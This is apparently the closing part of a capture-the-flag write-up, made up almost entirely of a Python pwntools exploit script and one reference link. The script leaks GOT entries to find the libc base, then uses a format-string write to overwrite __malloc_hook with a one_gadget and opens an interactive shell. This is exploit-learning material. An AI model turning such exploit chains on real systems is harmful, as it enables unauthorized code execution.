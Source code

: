 ```py
        leaked_byte = p.recvuntil(b'>>> ')[:-4]
        if leaked_byte == b'':
            content += b'\x00'
        else:
            content += leaked_byte[0:1]
    return u64(content)


######################################################################################

# Dump Stack content
#dump_format(100, 150)

#code = leak_section(0x400000, 0x1000)
#print(disasm(code))

# Leaking Libc Base address
p = remote(HOST, PORT)
p.recvuntil(b'>>> ')

printf_got = arb_read(0x400000 + 0x200fd0)
print("[i] Printf GOT:", hex(printf_got))

read_got = arb_read(0x400000 + 0x200fe0)
print("[i] Read GOT:", hex(read_got))

libc.address = printf_got - libc.sym.printf
print("[i] Libc Base:", hex(libc.address))

# Overwriting malloc_hook with one_gadget
one_gadget = libc.address + 0x10a2fc
malloc_hook = libc.sym.__malloc_hook

write  = {malloc_hook : one_gadget}
payload  = fmtstr_payload(6, write, write_size='short')
p.sendline(payload)

# Force call malloc.
payload = b'%100000c'
p.sendlineafter(b'>>>', payload)

p.interactive()
```
## References
- One Gadgets and Malloc Hook: https://ir0nstone.gitbook.io/notes/binexp/stack/one-gadgets-and-malloc-hook  
